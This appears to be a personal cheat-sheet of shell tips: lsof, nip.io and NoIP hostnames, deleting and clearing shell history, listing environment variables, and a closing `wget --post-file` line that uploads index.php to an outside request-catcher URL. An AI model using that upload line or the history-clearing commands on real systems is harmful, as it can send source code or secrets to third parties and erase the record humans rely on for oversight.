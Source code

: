 
Here will be a bunch of stuff that I don't know where to insert

# Lsof

- lsof is a tool to identify opened files and their network connection

```bash
sudo apt install lsof

sudo lsof -i :NUMERIC_PORT_VALUE_HERE
sudo lsof -i :80 # example
```

# Nip.io

[nip.io](https://nip.io/) allows you to do that by mapping any IP Address to a hostname using the following formats:

Without a name:
- `10.0.0.1.nip.io` maps to `10.0.0.1`
- `192-168-1-250.nip.io` maps to `192.168.1.250`
- `0a000803.nip.io` maps to `10.0.8.3`

With a name:
- `app.10.8.0.1.nip.io` maps to `10.8.0.1`
- `app-116-203-255-68.nip.io` maps to `116.203.255.68`
- `app-c0a801fc.nip.io` maps to `192.168.1.252`
- `customer1.app.10.0.0.1.nip.io` maps to `10.0.0.1`
- `customer2-app-127-0-0-1.nip.io` maps to `127.0.0.1`
- `customer3-app-7f000101.nip.io` maps to `127.0.1.1`

# NoIP.com

Create an easy to remember hostname and never lose your connection again.

- https://www.noip.com/

# History

Depending on the shell or the CLI you are using, a file called `.SHELL_history` is created.
- It save all the commands you ran in the shell **after closing it**
- Commands run in a session are kept in memory until the session is closed
```bash
history
history -d <line_number> # Delete an history entry
```

**Does work in bash but not in zsh and maybe others (not tested)**
```bash
history -a # write the buffer to bash_hisory
history -c # clean the buffer event the history -c command
```


# Env

List all environnement variables
```bash
env
printenv
```

# wget

`wget` can send files in post attachement
```bash
wget --post-file index.php https://hookb.in/xxxxxx
```